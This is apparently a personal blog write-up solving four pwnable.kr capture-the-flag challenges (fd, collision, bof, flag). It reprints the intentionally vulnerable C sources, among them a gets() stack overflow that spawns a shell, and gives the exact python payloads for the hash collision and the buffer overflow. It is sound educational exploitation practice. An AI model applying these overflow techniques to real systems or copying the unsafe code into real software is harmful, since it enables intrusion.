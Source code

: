 +++
title= "Toddler's Bottle Part 1"
date= "2018-04-01"
weight= 10
Author= "V.A."
authorAvatar= "img/v_logo.png"
events= ["pwnable.kr"]
tags = ["pwnable.kr"]
categories = ["pwning"]
nomenu="main"
image= "img/2018-04/pwnablekr.jpg"
+++

* File Descriptor

Using the ~ls -la~ you'll notice that the ~suid~ bit is set for ~fd~ executable. Checking the code: 

#+BEGIN_SRC c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;
}

#+END_SRC

Two important function calls inside the code are ~atio()~ which initializes the ~fd~. The ~fd~ is then passed to ~read()~ as the first argument which is the file descriptor. File descriptor 0 is ~stdin~ so the argument should be ~0x1234~ which is ~4660~. Then the ~stdin~ will be used and then the next input should be ~LETMEWIN~ ENTER.

* Collision

For better understanding I took the code and ran it locally to do different testings (maybe because I'm a toddler :] ). Here's the code I modified a little bit to print a bunch of new stuff: 

#+BEGIN_SRC C
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
	int* ip = (int*)p;
	int i;
	int res=0;
	for(i=0; i<5; i++){
		res += ip[i];
		printf("%d\n",ip[i]);
	}
	printf ("%d\n",res);
	printf ("%lu\n", hashcode);
	printf ("%d\n", (int) hashcode);
	return res;
}

int main(int argc, char* argv[]){
	if(argc<2){
		printf("usage : %s [passcode]\n", argv[0]);
		return 0;
	}
	if(strlen(argv[1]) != 20){
		printf("passcode length should be 20 bytes\n");
		return 0;
	}

	if(hashcode == check_password( argv[1] )){
		system("/bin/cat flag");
		return 0;
	}
	else
		printf("wrong passcode.\n");
	return 0;
}
#+END_SRC  

The code needs an argument of length 20 bytes (like 20 characters), but in ~check_password()~, it converts them to ~int~ which is 32 bits. So Every 4 chars would form an integer. Then these 5 integers are summed up in the ~for~ loop of the ~check_password()~ and is then compared to ~hashcode~ which is ~568134124~ decimal. So an easy way is to divide it by 5 and find the 5 numbers: 

~568134124 = 4*113626824 + 113626828~
OR 
~0x21DD09EC = 4*0x6C5CEC8 + 0x6C5CECC~

So taking the endianness into account, let's create this string using ~python~ and pass it as argument:
 
~$ ./col $(python -c "print '\xc8\xce\xc5\x06'*4 + '\xcc\xce\xc5\x06'")~


* bof 

simple buffer overflow based on this code: 

#+BEGIN_SRC c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
#+END_SRC

Find the offset of ~0xdeadbeef~ and replace it with ~0xcafebabe~. We can get the offset by brute-forcing (the easy way) or we can use ~r2~ to calculate the buffer (the hard way). So let's use ~r2~. Here's a snapshot of the ~main~'s variables: 

<img class="special-img-class" src="/img/2018-04/main_variables.png" />

Checking the code you'll notice ~local_2ch~ is actually the buffer and clearly ~arg_8h~ is the argument, i.e. ~0xdeadbeef~. So let's calculate how many bytes we have to write (52 bytes): 

<img class="special-img-class" src="/img/2018-04/offset.png" />

And now let's create the input string and send it to TCP server using: 

#+BEGIN_SRC python
python -c "print 'A'*52 + '\xbe\xba\xfe\xca'"
#+END_SRC

Final result (echo is not needed here, I was too lazy to change the screenshot): 

<img class="special-img-class" src="/img/2018-04/bof_overflow.png" />

* flag

Going through the code in r2's debug mode it's clear that the binary is packed:

#+BEGIN_SRC bash
[root:~/hostDownloads]# rabin2 -zz ./flag | grep UPX
Warning: Cannot initialize section headers
Warning: Cannot initialize strings table
Warning: Cannot initialize dynamic strings
000 0x000000b4 0x004000b4   4   5 (LOAD0) ascii UPX!
7050 0x0004a656 0x0044a656  78  79 (LOAD0) ascii $Info: This file is packed with the UPX executable packer https://upx.sf.net $\n
7051 0x0004a6a5 0x0044a6a5  75  76 (LOAD0) ascii $Id: UPX 3.08 Copyright (C) 1996-2011 the UPX Team. All Rights Reserved. $\n
8071 0x00051d8c 0x00051d8c   4   5 () ascii UPX!
8072 0x00051d94 0x00051d94   5   6 () ascii UPX!\r
#+END_SRC

 Trying to take the same approach as, for instance, [[https://www.behindthefirewalls.com/2013/12/unpacking-upx-file-manually-with-ollydbg.html][here]] didn't work considering that the challenge is "toddler". So turns out it's as easy as literally unpacking it: 

 #+BEGIN_SRC bash
[root:~/hostDownloads]# upx -d flag                   
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2017
UPX 3.94        Markus Oberhumer, Laszlo Molnar & John Reiser   May 12th 2017

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
    883745 <-    335288   37.94%   linux/amd64   flag

Unpacked 1 file. 
 #+END_SRC

and checking the code a little bit and then extracting the string:
#+BEGIN_SRC bash
[root:~/hostDownloads]# strings flag | grep UPX
UPX...? sounds like a delivery service :)
#+END_SRC 
